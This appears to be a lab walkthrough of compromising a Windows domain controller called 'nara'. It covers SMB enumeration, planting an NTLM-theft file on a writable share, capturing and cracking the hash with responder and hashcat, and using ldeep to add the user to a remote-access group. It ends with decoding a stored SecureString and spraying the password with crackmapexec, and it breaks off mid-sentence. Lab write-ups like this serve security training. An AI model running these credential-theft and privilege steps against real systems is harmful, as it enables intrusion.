# nara

## Enumeration

I started with an Nmap TCP SYN scan as usual:

```
# Nmap 7.94SVN scan initiated Sun Jun 16 15:22:06 2024 as: nmap -Pn -A -p- -o ./enumeration/external_tcp_all.nmap 192.168.200.30
Nmap scan report for 192.168.200.30
Host is up (0.052s latency).
Not shown: 65511 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-16 21:24:00Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: nara-security.com0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Nara.nara-security.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:Nara.nara-security.com
| Not valid before: 2023-07-30T14:09:26
|_Not valid after:  2024-07-29T14:09:26
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: nara-security.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=Nara.nara-security.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:Nara.nara-security.com
| Not valid before: 2023-07-30T14:09:26
|_Not valid after:  2024-07-29T14:09:26
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: nara-security.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=Nara.nara-security.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:Nara.nara-security.com
| Not valid before: 2023-07-30T14:09:26
|_Not valid after:  2024-07-29T14:09:26
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: nara-security.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=Nara.nara-security.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:Nara.nara-security.com
| Not valid before: 2023-07-30T14:09:26
|_Not valid after:  2024-07-29T14:09:26
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-06-16T21:25:39+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: NARASEC
|   NetBIOS_Domain_Name: NARASEC
|   NetBIOS_Computer_Name: NARA
|   DNS_Domain_Name: nara-security.com
|   DNS_Computer_Name: Nara.nara-security.com
|   DNS_Tree_Name: nara-security.com
|   Product_Version: 10.0.20348
|_  System_Time: 2024-06-16T21:24:59+00:00
| ssl-cert: Subject: commonName=Nara.nara-security.com
| Not valid before: 2024-05-06T12:45:53
|_Not valid after:  2024-11-05T12:45:53
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49672/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: Host: NARA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-06-16T21:25:02
|_  start_date: N/A

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   51.37 ms x.x.x.1
2   51.33 ms x.x.x.254
3   51.95 ms 192.168.251.1
4   52.53 ms 192.168.200.30
```

Based on the scan results it looks like this is the domain controller for `nara-security.com`.


### Ports 139 & 445

I do my initial SMB enumeration and try an anonymous enumeration of the shares with smbclient:


<figure><figcaption><p>Anonymous listing of shares</p></figcaption></figure>

On a hunch I check if the guest account is enabled. I do this with the non-standard nara share. Lo and behold it is:

<figure><figcaption><p>Guest enumeration of SMB</p></figcaption></figure>

The contents of `Important.txt` are copied here:


```
Dear Team,

We hope this message finds you well. We wanted to remind all employees to take a moment each day to check the shared documents folder diligently. As part of our commitment to streamline processes and enhance efficiency, important documents are frequently uploaded to this folder for your attention and action.

The shared documents folder serves as a central hub for crucial updates, contracts, agreements, and various other essential materials requiring your attention. To ensure that you don't miss any critical information, please make it a habit to access the folder at the beginning of your workday or as often as possible.

Here are a few simple steps to stay up-to-date and ensure timely actions:

* Access the Shared Documents Folder: Log in to your company account and navigate to the designated shared documents folder. If you encounter any issues accessing the folder, please reach out to the IT department for assistance.

* Review New Additions: Look for any new documents that might have been uploaded since your last visit. These documents might require your signature, feedback, or acknowledgment.

* Take Action Promptly: If there are documents that need your attention, please act promptly and follow the necessary procedures as indicated within each document. Whether it's a signature, a comment, or any other form of response, timely actions are vital to keep our operations running smoothly.

* Seek Clarification: If you encounter any uncertainty or have questions about the documents you find, don't hesitate to reach out to the relevant department or the person mentioned in the document for clarification. It's essential that you fully understand what's required before proceeding.

Remember, staying informed and acting promptly ensures that projects progress seamlessly, contracts get executed on time, and the company as a whole operates efficiently. Your cooperation in this matter is greatly appreciated and contributes to our collective success.

Thank you for your attention to this matter, and if you have any concerns or suggestions to improve our document management process, please share them with your department head or the HR team.
```


It seems like the company's team is under some sort of mandate to check the share regularly. I assume "shared documents folder" refers to `nara\Documents` but I do not know for sure. I drop a `.odt` with a malicious macro on it for good measure.

## Foothold

I try a couple of different things with the abillity to write files to their documents folder:

1. Write a .odt file with a malicious macro to spawn a reverse shell
2. Use ntlm\_theft to generate a malicious .lnk file to capture a NTLM hash

A Netcat listener and responder instance were started for these.

### Obtaining a Hash

I waited a bit and got a hit with the responder instance (method 2 worked):

```bash
sudo responder -I tun0 -v
```

<figure><figcaption><p>Hash captured with responder</p></figcaption></figure>

### Cracking the Hash

It is a NTLMv2 hash so it cannot be passed. I must crack it. I copy the hash into a file called `tracy.ntlmv2` and use `hashcat` to crack it. It quickly cracks:


```bash
hashcat -m 5600 -w 3 -o tracy.cracked ./tracy.ntlmv2 /usr/share/wordlists/rockyou.txt
```



```
TRACY.WHITE::NARASEC:9f6d49cfc8060ccd:d737f2d0e26fba335b7ed2a6f5353387:010100000000000080af60c805c0da...0000000000:zqwj041FGX
```


Perfect so now I have some credentials `nara:zqwj041FGX`.

### Using the Credentials

I start checking what I can do with this. I use CrackMapExec to check WinRM and SMB. I also check `rpcclient`:

<figure><figcaption><p>Access checks with credentials</p></figcaption></figure>

I cannot access via WinRM. I can see the same shares. I have RPC access it seems.

I run `enum4linux` again against the machine now that I have credentials. It turned up a lot of information but none of it actionable at the moment.

I recall that the LDAP ports were externally accessible. I know that tools like PowerView can add machines, users, users to groups, etc. Those are generally run on the internal machine, but I wonder if there is a Linux equivalent that would allow the same thing externally.

### ldeep

It seems `ldeep` is as close as I will get. ldeep offers several commands for enumeration via LDAP:

<figure><figcaption><p>Commands for ldeep</p></figcaption></figure>

#### Enumeration with ldeep

For example to enumerate all users in the `nara-security.com` domain as `tracy.white` the command would be:


```bash
ldeep ldap -u tracy.white -p 'zqwj041FGX' -d security-nara.com -s ldap://192.168.210.30 users
```


When run the output is cleaned and users are listed one-per-line:

<figure><figcaption><p>Users enumerated with ldeep</p></figcaption></figure>

I can list all of the `groups`, `memberships`, etc. for domain objects now:

<figure><figcaption><p>Basic enumeration with ldeep</p></figcaption></figure>

#### LDAP Search

It is possible to search LDAP using the normal filters (as used in `PowerView` or `Enumerate-AD`). This method is helpful because it returns the full object representation not just a name or something.

For example to search the user `tracy.white` I would use the `sAMAccountName=` filter as seen below:


```bash
ldeep ldap -u tracy.white -p 'zqwj041FGX' -d security-nara.com -s ldap://192.168.210.30 search "(sAMAccountName=tracy.white)"
```


<figure><figcaption><p>Object return of tracy.white</p></figcaption></figure>

#### Manipulating the Domain

Assuming the user has appropriate privileges, several of the ldeep commands offer the ability to alter the domain. They have been copied from the help menu below:

```
...
add_to_group        Add `user` to `group`.
create_computer     Create a computer account
create_user         Create a user account
modify_password     Change `user`'s password.
remove_from_group   Remove `user` from `group`.
unlock              Unlock `user`
```

The `add_to_group` will be demonstrated in the next section.

### Granting Remote Access

At this point I know I can search the domain information via LDAP with `ldeep`. It is time to see if our use is allowed to manipulate the domain too. The issue I am currently facing is that I think I have obtained the only valid credentials I am likely to without additional access. Unfortunately that has only given me the `tracy.white` user who does not have remote access. But perhaps the user's profile could be manipulated to grant remote access. To achieve this I will need to add `tracy.white` user to the `Remote Access` group.

I will attempt this with the `add_to_group` command. My first attempt failed, apparently you cannot just use the string username and group name in the command:

<figure><figcaption><p>Failed attempt at add_to_group</p></figcaption></figure>

Instead I will need to obtain the **`dn`** field of the `tracy.white` user and `Remote Access` group as specified by the error message "`check ... dn`."

#### dn

At first this confused me but the `dn` field is not the same as the `distinguishedName`. They are often similar but subtly different. According to [LDAP for Rocket Scientists](https://www.zytrax.com/books/ldap/ch2/index.html#data), the `dn` field is used to place objects in the Directory Information Tree (DIT):

<figure><figcaption><p>dn explanation</p></figcaption></figure>

This is the field that will be used to reference objects for commands like `add_to_group`.

#### Obtaining the dn

Luckily the `dn` is a field returned by the ldeep search command so I will simply need to search the 2 objects and I will have the distinguished names. I will start with `tracy.white`:


```bash
ldeep ldap -u tracy.white -p 'zqwj041FGX' -d security-nara.com -s ldap://192.168.210.30 search "(sAMAccountName=tracy.white)"
```


<figure><figcaption><p>dn field for tracy.white</p></figcaption></figure>

Take care to not accidentally grab the `distinguishedName` right above.

I can now use the command below to retrieve the `dn` for the Remote Access group:


```bash
ldeep ldap -u tracy.white -p 'zqwj041FGX' -d security-nara.com -s ldap://192.168.210.30 search "(sAMAccountName=Remote Access)"
```


<figure><figcaption><p>dn for Remote Access</p></figcaption></figure>

#### Adding User to Remote Access

Now I can use the add\_to\_group command as seen below:


```bash
ldeep ldap -u tracy.white -p 'zqwj041FGX' -d security-nara.com -s ldap://192.168.210.30 add_to_group "CN=Tracy White,OU=staff,DC=nara-security,DC=com" "CN=Remote Access,OU=remote,DC=nara-security,DC=com"
```


This executes successfully and then I can use `evil-winrm` to launch a shell session:

<figure><figcaption><p>Granting myself remote access</p></figcaption></figure>

User access achieved as `tracy.white`.

## Privilege Escalation

The first couple checks are standard. `whoami /all` to see if there are any super-easy escalation vectors:

<figure><figcaption></figcaption></figure>

I checked the network connections (`netstat -ano`) but I did not see anything interesting that was not visible from outside. There are no databases or HTML pages accessible via the internal interfaces that I can see.

At this point I moved SharpHound and WinPEAS over to the machine expecting to be able to run them but I was denied the ability to run local executables. I also could not run them via the SMB trick. Looks like it is time for some manual enumeration.

### Lateral Movement

I poke around where I landed and find a document called automation.txt. I check it out and find some sort account in it:

<figure><figcaption><p>file found in user's directory</p></figcaption></figure>

It is worth noting they look like bytes. All values are `0-9` `A-F`. I try using an [online hexadecimal decoder](https://cryptii.com/pipes/binary-decoder) to see if it can just be directly translated to text. It cannot.

#### Decoding the String

After some research I am reasonably confident it is a [BSTR](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/automat/bstr) representation of a credential. I will first read the data in as a string and convert it to a SecureString. Then I will convert it to a BSTR and then back to a string to decode it. This will leverage the [`Marshal.SecureStringToBSTR`](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.securestringtobstr?view=net-8.0) and [`Marshal.PtrToStringAuto`](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.ptrtostringauto?view=net-8.0) methods. The former creates a BSTR and returns a pointer to it, the latter converts the value pointed to to a string and returns it.

<figure><figcaption></figcaption></figure>

1. I started by copying the data and echoing it into a `cred.txt` file
2. I read the `cred.txt` file with `Get-Content` and converted it to a SecureString with `ConvertTo-SecureString`
3. I converted the SecureString to a BSTR with the `SecureSTringToBSTR` method
4. I converted the BSTR to a string with the `PtrToStringAuto` method
5. Read the string

Ok so now I know the password `hHO_S9gff7ehXw` but I do not know which account it is for. Fortunately I can easily enumerate the users in the domain. I could do this on the machine with PowerShell (either using PowerView or the built-in ActiveDirectory module if available).

Even easier is `ldeep` which I used to [generate a list of users](nara.md#enumeration-with-ldeep) earlier. This time I just direct the output to a file:


```bash
ldeep ldap -u tracy.white -p 'zqwj041FGX' -d security-nara.com -s ldap://192.168.210.30 users > users.txt
```


Technically I can remove `tracy.white` as we already have her password (though I did not actually do this). I then run the list through `crackmapexec` to figure out whose password it is:


```bash
crackmapexec winrm -u users.txt -p 'hHO_S9gff7ehXw' -d 'nara-security.com' 192.168.210.30
```


<figure><figcaption><p>Determining what password I have</p></figcaption></figure>

Perfect it belongs to `Jodie.Summers` and she is a remote user! I have now moved laterally to `jodie.summers`' account:

